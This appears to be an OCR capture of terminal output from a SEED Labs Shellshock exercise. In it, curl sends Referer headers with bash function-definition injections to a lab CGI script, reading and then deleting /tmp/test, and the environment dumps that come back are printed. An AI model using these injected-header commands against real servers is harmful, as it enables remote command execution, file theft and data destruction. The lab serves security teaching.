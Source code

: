 ```
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=55804
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../02_shellshock$ curl -e '() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*** ENVIRONMENT VARIABLES***
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=curl/7.68.0
HTTP_ACCEPT=*/*
HTTP_REFERER=() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /tmp/test
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=55806
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../02_shellshock$ curl -e '() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/rm /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*** ENVIRONMENT VARIABLES***
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=curl/7.68.0
HTTP_ACCEPT=*/*
HTTP_REFERER=() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/rm /tmp/test
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=55808
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
```